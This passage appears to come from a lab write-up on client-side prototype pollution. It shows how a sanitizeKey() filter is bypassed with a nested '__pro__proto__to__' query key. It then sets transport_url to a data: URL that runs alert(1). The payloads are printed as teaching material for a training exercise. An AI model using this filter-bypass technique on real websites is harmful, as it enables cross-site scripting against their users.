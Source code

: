 This is “/resources/js/searchLoggerFiltered.js”. It suffers the same problem
that one previous lab with “transport_url”:

![img](media/04db297f6fc0b45940ca2cb6d1c5fe06.png)

Knowing the sanitization from the santizeKey() function, we can try a payload
like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/?__pro__proto__to__[transport_url]=bar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

And the value in Object.prototype is correct:

![img](media/1706784ac16de0a8f3152a7dd5c399ee.png)

Finally:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/?__pro__proto__to__[transport_url]=data:,alert(1);
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/ca8bf3d56d761d7500c5425cd9bb2bc4.png)

